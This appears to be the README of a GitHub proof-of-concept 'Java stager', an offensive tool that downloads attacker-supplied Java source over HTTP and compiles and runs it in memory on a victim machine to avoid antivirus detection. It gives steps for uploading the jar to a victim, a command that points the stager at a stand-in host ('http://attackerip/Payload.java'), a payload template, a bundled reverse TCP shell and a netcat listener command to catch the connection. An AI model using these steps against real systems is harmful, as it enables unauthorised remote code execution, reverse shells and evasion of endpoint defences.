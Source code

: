 # java-stager
A PoC Java Stager which can download, compile, and execute a Java file in memory.

This is for research purposes only, do not use this where you are unauthorised to do so.

# What is this?

This is based on the work of James Williams from his talk "Next Gen AV vs My Shitty Code" available here:

https://www.youtube.com/watch?v=247m2dwLlO4&feature=youtu.be

The key parts of the talk for me are:

* Load a Stager onto victim (touches disk, but is a benign binary)
* Stager downloads raw code over HTTP (which stays in memory)
* Stager compiles raw code (also in memory)
* Stager then executes compiled code (also in memory)

His example is in .net, but in the talk he suggested that Java would be capable of the same techniques. I have implemented a raw PoC which I think matches the above techniques.

# Working with it

* Clone down the entire repository.
* Open it in an IDE which can use maven (such as NetBeans)
* The Stager, and the example payload are available in the "/src/main/java" folder.
* Alter the Stager as you would like and compile the project. I was using "clean/build" in the default profile.

The output in NetBeans Included a line like this:

`Building jar: C:\Users\cornerpirate\Documents\NetBeansProjects\java-stager\target\JavaStager-0.1-initial.jar`

To work on your victim you must upload the "JavaStager*.jar" file and the "lib" folder containing Janino from the "target" folder.

The following command will execute the stager:

`java -jar JavaStager-0.1-initial.jar`

You will be prompted with the usage as shown:

`Proper Usage is: java Stager <url>`

The "url" is the only parameter that is passed to Stager. An example usage would be:

`java -jar JavaStager-0.1-initial.jar http://attackerip/Payload.java`

Your payload must be in a file called "Payload.java" and your exploit code must be in a static method called "Run". The following shows the template if you want to write your own:

`
public class Payload {
   public static void Run() {
      // Your code here
   }
}
`

I have provided an example Reverse TCP payload in the file "TCPReverseShell.java". To prevent name clashes this is not called "Payload.java" and the class name is wrong. 
The header comment in "TCPReverseShell.java" explains how to modify it to work.

You will need to host your "Payload.java" file on an HTTP server. You can use Apache if you want or simple HTTP/HTTPS services in Python2 and Python3 as per my blog:

https://cornerpirate.com/2016/12/16/simple-http-or-https-servers/

The attacker will need to start a netcat listener to catch the connection back using the standard `nc -lvp 8044` technique.

